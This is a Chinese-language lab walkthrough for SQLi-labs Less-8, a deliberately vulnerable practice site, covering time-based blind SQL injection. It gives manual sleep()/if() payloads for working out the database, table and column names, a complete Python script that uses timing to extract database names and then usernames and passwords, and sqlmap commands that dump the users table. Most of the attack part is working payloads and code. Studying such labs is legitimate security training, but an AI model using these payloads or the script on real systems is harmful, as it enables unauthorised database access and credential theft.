




# Less-8 布尔盲注/时间盲注

- 判断注入点
?id=1' 报错
?id=1'--+ 正常
判断**关于'闭合**
这里不管怎么注入都没有报错注入，可以采用布尔盲注或时间盲注
这里使用时间盲注
本关用到的函数：
if(条件,a,b)        # 当条件为真返回a，否则返回b
sleep(5)        # 进程睡眠5秒

1. 判断是否有延时
id=1' and sleep(5) --+


有延时 可以使用
 2. 爆库长
 ?id=1' and if(length(database())=8,sleep(5),null)--+
延时 库名长度为8
3. 爆库名
从左边第一个字母开始，判断库名第一个字母是不是s
?id=1' and if(left(database(),1)='s',sleep(5),null)--+
?id=1' and if(left(database(),2)='se',sleep(5),null)--+

或者：
?id=1' and if((select (substr(database(),1,1))="s") ,sleep(5), null)--+
...
库名：security
 4. 爆表名：
 ?id=1' and if(left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='e' ,sleep(5),null)--+
 ...
 表名:email
 5. 爆列名
 ?id=1' and if(left((select column_name from information_schema.columns where table_name='users' limit x,1),x)='password' ,sleep(5),null)--+
 x改为具体数字，需要逐个慢慢试，推荐脚本或者工具（例：sqlmap）跑

---
```python
import requests

import time

  

# -------------------------- 配置区 --------------------------

url = "http://localhost:8848/Less-8"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"}

timeout = 10  # 超时时间必须大于sleep时间

sleep_time = 3  # 休眠时间，建议3-5秒

quote = "'"  # 单引号闭合

comment = "%23"

# -----------------------------------------------------------

  

# 时间盲注判断函数

def is_true(sql):

    payload = f"?id=1{quote} and if({sql},sleep({sleep_time}),null){comment}"

    start_time = time.time()

    try:

        requests.get(url + payload, headers=headers, timeout=timeout)

        end_time = time.time()

        return end_time - start_time > sleep_time - 0.5  # 允许0.5秒误差

    except requests.exceptions.Timeout:

        return True  # 超时说明条件为真

    except Exception as e:

        print(f"请求出错：{e}")

        time.sleep(1)

        return is_true(sql)

  

# 二分法时间盲注核心函数

def time_blind(sql):

    result = ""

    for i in range(1, 33):  # 最多32个字符

        low = 32

        high = 126

        mid = (low + high) // 2

        while low <= high:

            # 判断第i个字符的ASCII码是否大于mid

            if is_true(f"ascii(substr(({sql}),{i},1))>{mid}"):

                low = mid + 1

            else:

                high = mid - 1

            mid = (low + high) // 2

        if low == 32:  # 到达字符串末尾

            break

        char = chr(low)

        result += char

        print(f"\r读取到字符：{char} | 当前结果：{result}", end="", flush=True)

    return result

  

# 开始爆破

print("🚀 开始爆破数据库...")

database = time_blind("select database()")

print(f"\n\n✅ 数据库名：{database}")

  

print("\n📋 开始爆破表名...")

tables = []

for i in range(4):  # security数据库有4个表

    table = time_blind(f"select table_name from information_schema.tables where table_schema='{database}' limit {i},1")

    tables.append(table)

    print(f"\n✅ 第{i+1}个表：{table}")

  

print("\n🔑 开始爆破users表列名...")

columns = []

for i in range(3):  # users表有3个列

    column = time_blind(f"select column_name from information_schema.columns where table_schema='{database}' and table_name='users' limit {i},1")

    columns.append(column)

    print(f"\n✅ 第{i+1}个列：{column}")

  

print("\n💾 开始爆破用户数据...")

print("="*50)

for i in range(5):  # 爆破前5个用户

    username = time_blind(f"select username from users limit {i},1")

    password = time_blind(f"select password from users limit {i},1")

    print(f"\n用户{i+1}：{username} | 密码：{password}")

  

print("\n" + "="*50)

print("🎉 时间盲注成功")
```
 
 ---
 用sqlmap跑：
 
 sqlmap -u "ip/Less-8/?id=1" --batch --dbs #爆库名
 


sqlmap -u "ip/Less-8/?id=1" --batch -D security --tables #爆表

sqlmap -u "ip/Less-8/?id=1" --batch -D security -T users --dump #爆数据 
